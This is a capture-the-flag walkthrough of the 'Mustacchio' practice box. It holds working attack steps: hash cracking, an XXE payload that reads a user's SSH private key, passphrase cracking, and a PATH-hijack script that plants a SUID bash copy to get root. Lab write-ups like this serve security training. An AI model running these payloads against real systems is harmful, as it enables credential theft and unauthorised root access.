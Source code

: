 **Difficulty:** Medium  
**Tags:** #XXE, #SSH, #Path_Hijacking, #SUID, #Privilege_Escalation, #WebEnum

---

***Mustacchio hides secrets behind a misconfigured XML parser and insecure backup files. With smart directory busting and crafted XML payloads, it's possible to exfiltrate sensitive SSH keys, escalate privileges via PATH hijacking, and ultimately claim root.***

---

## 🔍 Initial Enumeration

* Nmap scan revealed three open ports:
  ```bash
  22/tcp   open  ssh
  80/tcp   open  http
  8657/tcp open  unknown (custom admin panel)
  ```

* Navigated to `http://10.10.X.X/` → Basic webpage

* Ran Gobuster:
  ```bash
  gobuster dir -u http://10.10.X.X -w /usr/share/wordlists/dirb/common.txt
  ```

✅ Discovered `/custom/` directory

---

## 📂 Cracked Admin Credentials

* Found user data in exposed file:
  ```
  /custom/users.db
  ```

* Contained:
  ```
  Username: admin
  Password hash: [hashed]
  ```

* Cracked using `john` + `rockyou.txt`  
✅ Password: `bulldog19`

---

## 🔐 Admin Panel Access (Port 8657)

* Visited: `http://10.10.X.X:8657`
* Logged in with:
  - Username: `admin`
  - Password: `bulldog19`

* After login → saw a **comment box form**
* Source page revealed a backup file:
  - `dontforget.bak`

* The `.bak` file exposed XML structure:
  ```xml
  <comment>
    <name>...</name>
    <author>...</author>
    <com>...</com>
  </comment>
  ```

---

## 🪓 XXE Exploit → SSH Key Exfiltration

* Crafted XML payload:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE comment [
    <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">
  ]>
  <comment>
    <name>Aadi</name>
    <author>Barry</author>
    <com>&xxe;</com>
  </comment>
  ```

* Submitted via comment box  
✅ Dumped **Barry’s `id_rsa` private key**

---

## 🔓 Cracking Barry’s SSH Key

* Key was encrypted with passphrase

* Converted and cracked with:
  ```bash
  ssh2john id_rsa > hash.txt
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```

✅ Passphrase found  
✅ SSH as Barry:
```bash
ssh -i id_rsa barry@10.10.X.X
```

---

## 🧍 User Access (barry)

* Retrieved `user.txt` from Barry's home directory ✅

* Enumerated `/etc/passwd`  
✅ Discovered second user: `joe`

---

## 📦 Privilege Escalation → Root

### 🔎 Found SUID binary:
```bash
/home/joe/live_log
```

* SUID-root:
  ```bash
  -rwsr-xr-x 1 root root 13337 live_log
  ```

* Running binary showed:
  ```bash
  tail -f /var/log/nginx/access.log
  ```

* `tail` is **called without full path** → vulnerable to `$PATH` hijack

---

## 💣 PATH Hijack Exploit

* Created malicious fake `tail`:
  ```bash
  mkdir /tmp/faketools
  echo -e '#!/bin/bash\ncp /bin/bash /tmp/rooted\nchmod +s /tmp/rooted' > /tmp/faketools/tail
  chmod +x /tmp/faketools/tail
  ```

* Hijacked PATH and ran:
  ```bash
  export PATH=/tmp/faketools:$PATH
  /home/joe/live_log
  ```

* Executed:
  ```bash
  /tmp/rooted -p
  ```

✅ Got root shell  
✅ Retrieved `/root/root.txt`

---

## 🧠 Summary

| Step  | Description                                        |
|-------|----------------------------------------------------|
| 🔍 1  | Found 3 open ports (`22`, `80`, `8657`)            |
| 🛠️ 2 | Gobusted `/custom/`, found admin hash              |
| 🔑 3  | Cracked hash → `bulldog19`, logged into admin panel |
| 🪓 4  | XXE exploited to steal Barry’s SSH key             |
| 🧑‍💻 5 | Cracked passphrase, SSH’d into Barry              |
| 🧍‍♂️ 6 | Found SUID binary under `joe`                     |
| 💣 7 | PATH Hijack → Copied SUID bash → Got root           |

---

## 😎 Final Thoughts

* This box was 🔥 for practicing:
  - XML External Entity (XXE)
  - Directory brute-force enumeration
  - Cracking and SSH access
  - PATH Hijacking with SUID binaries

* Realistic attack chain from web exploit → user shell → root privesc.

---

## 🧼 Cleanup

```bash
rm -rf /tmp/faketools
rm /tmp/rooted
unset PATH
```

---

## 🌏 Rooted by: Aadi (aka the Mustacchio Slayer)

